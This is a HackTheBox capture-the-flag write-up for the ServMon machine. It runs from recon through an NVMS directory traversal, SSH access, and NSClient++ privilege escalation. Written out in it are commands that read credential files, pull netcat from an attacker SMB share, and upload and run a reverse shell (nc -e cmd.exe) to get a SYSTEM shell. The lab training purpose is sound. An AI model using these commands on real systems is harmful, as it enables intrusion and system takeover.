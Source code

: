# ServMon [HTB](https://app.hackthebox.com/machines/240)
![servmon-01]()

## Recon

After adding the target to my `/etc/hosts` file I start scaning for open ports:

```bash
nmap -p- --min-rate 10000 servmon.htb
```

![ports-02]()


There are quite a lot of open ports on this machine, though many of them seem to be RPC related. Let's leave these ports alone for now and run a version detection scan againts the more relevant ports:

```bash
nmap -p 21,22,80,135,139,445,5666,6063,6699,8443 -sCV servmon.htb -oN nmap.results
```

![nmap-res-03]()
![nmap-res-04]()


We have the following:

+ An FTP server on port 21.
+ An SSH server on port 22.
+ An HTTP server on port 80.
+ RPC endpoint-mapper on port 135.
+ NetBIOS on port 139.
+ An SMB server on port 445.
+ Two "tcpwrapped" services on ports 5666 & 6063.
+ A "napster" service on port 6699.
+ A possible HTTPS server on port 8443.


Once again, we have quite a large attack surface here. Based on nmap's probing scripts, we can see that the FTP server allows for anonymous logins, so let's start with that. After which we an take a look at the HTTP/S servers. 


## FTP Port 21

Let's login to the FTP server using `anonymous: anonymous` as our credentials, and list the contents of the server:

![ftp-list-05]()


We see a `Users` folder. If we `cd` into it, and run `ls` again, we see two user folders:

![ftp-users-06]()


Let's see what's inside each of the folders:

+ Nadine

If we `cd` into the `Nadine` folder we will see a `Confidential.txt` file. Lets copy it over:

![ftp-nadine-07]()


The file reads as such:

![nadine-file-08]()


`Nadine` talks about the existence of a `Password.txt` file in `Nathan`'s desktop. Not a lot we can do with this information right now, but it's worth keeping this in mind as we move forward. 


+ Nathan

If we `cd` into the `Nathan` folder we will see a `To do notes.txt` file. I copy this file over as well:

![ftp-nathan-09]()


This file reads as such:

![nathan-file-10]()


`Nathan` is referencing some of the other services on this system. The main takeaways here in my opinion is the fact that the `NMVS` service is available publicly, and the mention of the `NSClient` tech. Let's start with the former one. 
 


+ What is NSClient?  

According to [this official NSClient++ page](https://nsclient.org), NSClient is a fully fledged monitoring agent which can be used with numerous monitoring tools. 


If we lookup known exploits for this tech, we can find the following [privesc action plan](https://www.exploit-db.com/exploits/46802). This looks solid, but we need to get access to the system first, so let's save this action plan for later. 


Let's check the NVMS tech. 


+ What is NVMS? 

I searched for this term online and the only thing I could find is that "NVMS" is an acronym for "National Vendor Management Service", which should be some form of a login system. Though, I wasn't able to find any wiki, or official vendor pages that describe the tech in more detail. 


If we browse towards `http://servmon.htb/` we will be see the NVMS login form:

![nvms-login-11]()


I tried to use a couple of weak generic passwords but they all faild. 


Instead, I looked up exploits for `NVMS 1000` online and I found [this directory traversal](https://www.exploit-db.com/exploits/48311) vulnerability on ExploitDB.


According to the exploit notes, all we have to do is add the following syntax before any file we want to retrieve from the server: `../../../../../../../../../../../../../`. 


So for example, to retrive the `passwords.txt` file `Nadine` mentioned, I sent the following request:

![passwords-12]()


I tried to use these passwords to login to the NVMS portal as both `Nathan` and `Nadine` but to no avail.


Then, I tried to use the passwords to login to the SSH. None of them worked to authenticate as `Nathan`, but upon testing the passwords for `Nadine`, I found that `L1k3B1gBut7s@W0rk` works to get access:

![ssh-13]()


## Privilege Escalation


Let's try the [privesc exploit](https://www.exploit-db.com/exploits/46802) for NSClient. 


According to the exploit notes, we need to get access to the GUI administration panel which is running on port 8443 on the target. But based on `Nathan`'s notes, this should be restricted from public access. 
 

If we browse towards `https://10.129.227.77:8443/` we see the following


![no-nsclinet-14]()


The site does respond, but none of the links work, and we can't do anything. If we read the `NSClinet` configuration file at `C:\Program Files\NSClient++\nsclient.ini` we can see why:

![allowed-hosts-15]()


The site is configured to only accept connections from the localhost interface. We need to tunnel this service over to our Kali machine, then we can access it through a localhost interface. To do this we can use a simple SSH tunnel with:

```bash
ssh -L 8443:127.0.0.1:8443 -N Nadine@servmon.htb 
```

If we list the open ports on our attack machine we will see port 8433 is open:

![port-16]()


Now we need to transfer `nc64.exe` to the target. I grab a copy to my current working directory, and start an SMB server with:

```bash
impacket-smbserver -smb2support -username htb -password htb serv .
```

Then, I connect to the share from the target and download the file:

```cmd
net use \\10.10.14.54\serv /u:htb htb
copy \\10.10.14.54\serv\nc64.exe nc64.exe
```

Here it is on the target:

![file-17]()


Now we can disconnect from the server using:

```cmd
net use /delete \\10.10.14.54\serv
```

Now we just need the password for the NSClient admin panel. We can follow along the exploit notes and find that it is stored at `c:\program files\nsclient++\nsclient.ini`. So we can extract it as such:

```cmd
type "c:\program files\nsclient++\nsclient.ini" | findstr pass
```

![pass-18]()


Now that we have the password, the tunnel is set, and we copied netcat to the target, we are ready to pull of the exploit. Though for some reason, when I opened `https://localhost:8433` on my attack machine I received the following error:

![no-gui-18]()


I wasn't sure why this was happening, it was getting pretty late and I wanted to finish the box. So instead of using the GUI, I found a way to pull the exploit off from the command line! 


First, let's create a `htb.bat` script that reads as such:

```bat
@echo off
C:\Users\Nadine\nc64.exe 10.10.14.54 443 -e cmd.exe
```

Now to upload this script to the target, we can run something like this:

```bash
curl -k -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/htb.bat -F 'data=@htb.bat' --user admin:ew2x6SsGTxjRwXOT
```

![added-19]()


So far so good. 


Next, let's start a local listener with:

```bash
rlwrap nc -lnvp 443
```


Now we are ready to invoke the exploit. To do so, we can run something like this:

```bash
curl -k 'https://127.0.0.1:8443/api/v1/queries/htb/commands/execute?time=1m' --user admin:ew2x6SsGTxjRwXOT
```


After running this command my shell stalls, and on my netcat listener I receive a shell as `nt authority\system`:

![root-20]()
